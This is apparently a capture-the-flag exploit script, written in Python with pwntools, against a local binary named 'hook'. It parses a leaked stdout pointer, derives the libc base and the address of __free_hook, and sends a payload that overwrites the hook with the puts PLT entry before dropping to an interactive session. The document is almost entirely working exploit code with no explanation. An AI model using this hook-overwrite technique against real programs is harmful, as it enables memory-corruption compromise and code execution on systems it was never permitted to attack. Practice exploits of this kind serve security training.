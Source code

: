 ```python
from pwn import *

def log(a, b): return success(': '.join([a, hex(b)]))

p = process('./hook')
e = ELF('./hook')
libc = ELF('./libc.so.6')

puts_plt = e.plt['puts']

p.recvuntil('stdout: ')
stdout = int(p.recv(14), 16)

libc_base = stdout - libc.symbols['_IO_2_1_stdout_']
free_hook = libc_base + libc.symbols['__free_hook']

payload = p64(free_hook) + p64(puts_plt)
p.sendlineafter('Size: ', '500')
p.sendlineafter('Data: ', payload)

p.interactive()
```